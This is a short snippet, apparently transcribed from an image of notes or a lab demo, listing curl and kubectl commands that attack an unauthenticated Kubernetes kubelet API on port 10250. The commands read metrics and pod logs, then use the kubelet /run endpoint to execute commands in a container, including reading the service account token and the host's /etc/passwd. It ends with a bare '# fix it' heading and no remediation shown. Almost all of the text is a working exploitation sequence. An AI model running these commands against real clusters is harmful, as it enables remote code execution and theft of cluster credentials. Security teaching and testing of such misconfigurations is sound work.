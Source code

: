 
# get infos

curl -k https://$IP:10250/metrics
curl -k https://$IP:10250/logs/pods/

# run code

kubectl apply -f pod.yaml

# get sensitive data

curl -XPOST -k https://$IP:10250/run/<namespace>/<pod>/<container> -d "cmd=<command-to-run>"

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it